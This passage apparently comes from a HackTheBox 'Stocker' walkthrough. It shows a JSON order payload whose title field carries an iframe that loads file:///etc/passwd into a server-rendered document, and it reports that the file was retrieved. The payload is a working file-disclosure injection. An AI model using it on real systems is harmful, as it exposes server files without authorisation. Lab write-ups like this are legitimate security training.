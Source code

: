   <img src="/images/walkthroughs/hackthebox/stocker/5_2_etc.png" width="90%"/>
</p>


We might try to use other method rather than a raw output on the website, let's use an iframe for it to be rendered with line breaks:

```json
{
    "basket": [
        {
            "amount": 1,
            "currentStock": 4,
            "image": "red-cup.jpg",
            "price": 32,
            "_id": "638f116eeb060210cbd83a8d",
            "title": "<iframe width=\"500\" height=\"800\" src=file:///etc/passwd></iframe>",
            "description": "It's a red cup.",
            "__v": 0
        }
    ]
}
```

We retrieved the /etc/passwd file:

<p align="center">